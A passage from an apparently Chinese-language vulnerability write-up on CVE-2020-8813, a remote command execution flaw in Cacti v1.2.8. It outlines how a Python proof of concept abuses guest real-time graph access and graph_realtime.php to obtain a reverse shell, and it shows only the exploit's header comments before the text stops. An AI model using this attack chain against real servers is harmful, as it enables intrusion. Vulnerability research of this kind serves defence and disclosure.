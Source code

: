 然后将其发送到应用程序以获取以下信息：

![](./resource/(CVE-2020-8813)Cactiv1.2.8远程命令执行漏洞/media/rId36.png)

### 完整版的poc

为了自动化利用过程，我编写了一个python代码来利用此漏洞，利用此漏洞将处理登录过程以启用"来宾实时图"特权，然后将生成有效负载并将精心制作的请求发送到"
graph\_realtime.php"页面为了获得反向壳。

这是完整的利用代码：

    #!/usr/bin/python3
     
    # Exploit Title: Cacti v1.2.8 Remote Code Execution
    # Date: 03/02/2020
    # Exploit Author: Askar (@mohammadaskar2)
    # CVE: CVE-2020-8813
    # Vendor Homepage: https://cacti.net/
    # Version: v1.2.8
    # Tested on: CentOS 7.3 / PHP 7.1.33
     